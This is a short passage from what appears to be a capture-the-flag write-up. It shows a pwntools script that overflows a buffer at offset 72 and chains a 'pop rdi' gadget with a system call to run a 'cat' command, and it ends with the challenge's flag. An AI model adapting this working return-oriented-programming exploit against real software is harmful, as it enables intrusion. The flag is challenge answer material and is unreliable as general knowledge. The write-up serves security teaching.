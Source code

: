 ```py
io.recvuntil(b"?\n")
io.sendline(b'Darlene Alderson') # Send second answer

io.recvuntil(b"?\n") # Jump to the vulnerable input

offset = 72
cat_cmd = 0x402069
pop_rdi = 0x40146b
system_call = 0x4011cf

payload = b''.join([
    b'A'*offset,
    pack(pop_rdi),
    pack(cat_cmd),
    pack(system_call)
])

io.sendline(payload) # Run the payload
flag = io.recvline().decode().strip()
print("[+] Flag :", flag)
io.close()
```

And after running this script, we get our flag!

`quarkCTF{r0p_cH4n1n_4r3_4m4zinG}` 
